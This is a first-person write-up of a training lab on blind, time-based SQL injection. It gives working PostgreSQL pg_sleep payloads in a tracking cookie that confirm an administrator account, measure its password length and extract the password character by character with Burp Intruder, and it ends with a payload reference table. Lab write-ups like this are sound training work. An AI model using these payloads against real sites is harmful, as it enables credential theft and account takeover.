

w I personally solved the **Blind SQL injection with time delays and information retrieval** lab, step by step, exactly as I did it.

---

## Step 1: Intercept the request

I opened the lab in Burp Suite and went to the front page of the shop.  
I turned on **Intercept** and captured the request containing the `TrackingId` cookie.

---

## Step 2: Test for time delay vulnerability

I changed the `TrackingId` cookie to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

I sent the request.  
✅ **The response took about 10 seconds** → Time-based SQL injection works.

Then I tested with false condition:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

✅ **Response was immediate** → Confirmed I can control true/false based on time.

---

## Step 3: Confirm administrator user exists

I changed the cookie to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

⏱️ **10-second delay** → Yes, `administrator` user exists.

---

## Step 4: Find password length

I started testing length by increasing the number step by step:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

- `>1` → delay (so length > 1)  
- `>2` → delay (length > 2)  
- `>3` → delay  
- Keep going until no delay

I found:
- `>19` → delay  
- `>20` → **NO delay**

✅ **Password length = 20 characters**

---

## Step 5: Extract password character by character

Now I needed to find each of the 20 characters.

### Set up Burp Intruder

I sent the request to **Intruder** (right-click → Send to Intruder).

I changed the cookie to:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

I placed payload markers around the letter `a` (the character I'm testing).

### Configure payloads

- **Payload type:** Simple list  
- **Add from list:** `a-z` and `0-9` (all lowercase letters and numbers)  

### Set resource pool

- **Maximum concurrent requests:** `1` (so requests don't overlap and time measurement is accurate)

### Launch attack

I clicked **Start attack**.

---

## Step 6: Read the results

In the attack results, I looked at the **Response received** column (time in milliseconds).

- Most rows: small number (~50–200 ms) → wrong character  
- **One row: ~10,000 ms (10 seconds)** → correct character

For position 1, the correct character was, say, `c`.

---

## Step 7: Repeat for positions 2 through 20

I went back to the main Burp window and changed:

```
SUBSTRING(password,1,1)  →  SUBSTRING(password,2,1)
```

Then:

```
SUBSTRING(password,3,1)
```

...all the way to 20.

Each time, I ran Intruder, found the 10-second delay row, and recorded the character.

---

## Step 8: Assembled the password

After testing all 20 positions, I had the full password:

```
c4rbonfibr4t10n  (example — actual password varies per lab)
```

---

## Step 9: Log in as administrator

I went to **My account** on the lab website.

- **Username:** `administrator`
- **Password:** (the 20-character password I found)

Clicked **Log in** → ✅ **Lab solved!**

---

## Quick reference: Payloads I used

| Purpose | Payload |
|---------|---------|
| Test vulnerability | `x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--` |
| Confirm admin exists | `x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` |
| Check length > N | `x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>N)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` |
| Extract char at position P | `x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,P,1)='CHAR')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` |

---

That's exactly how I solved the lab. Took some patience, but worked perfectly!

